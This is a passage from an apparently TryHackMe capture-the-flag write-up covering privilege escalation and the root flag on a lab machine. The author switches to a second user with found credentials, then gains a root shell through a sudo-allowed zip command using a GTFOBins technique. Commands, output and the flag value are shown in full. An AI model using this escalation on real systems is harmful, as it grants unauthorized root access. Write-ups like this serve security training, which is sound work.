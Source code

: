 ##
> Privilege Escalation
26. `sudo -l` to list the sudo privileges assigned to the user, but it turns our that the current user that we're logged in as doesn't have the privileges to run that command 
```bash
skyfuck@ubuntu:~$ sudo -l
[sudo] password for skyfuck: 
Sorry, user skyfuck may not run sudo on ubuntu.
```
27. `su {USER2}` to switch to and authenticate as the second user who's credentials we found
28. `whoami` to verify that we've successfully logged in as the second user
```bash
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```
29. `sudo -l` to list the sudo privileges assigned to the new user that we're now logged in as, which reveals that they have root permission for the **zip** command
30. Go to **https://gtfobins.github.io** and search for zip to see what comands we can use to bypass this machine’s local security restriction, which shows us that we can execute the following commands in order to log in as root:
    
      1. `TF=$(mktemp -u)`
      2. `sudo zip $TF /etc/hosts -T -TT ‘sh #’`

31. `whoami` to see if we’re now logged in as root, which we are
```bash
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
```bash
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

##
> Finding the Root Flag
32. `find / -type f -name root.txt 2>/dev/null` to search for the **root.txt** file in the entire file system ("/") and display the path of any matching files while suppressing any error messages that may occur during the search
33. `cat {ROOT.TXT FILE PATH}` to display contents of the root.txt file on the terminal
```bash
# find / -type f -name root.txt 2>/dev/null
/root/root.txt
```
```bash
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

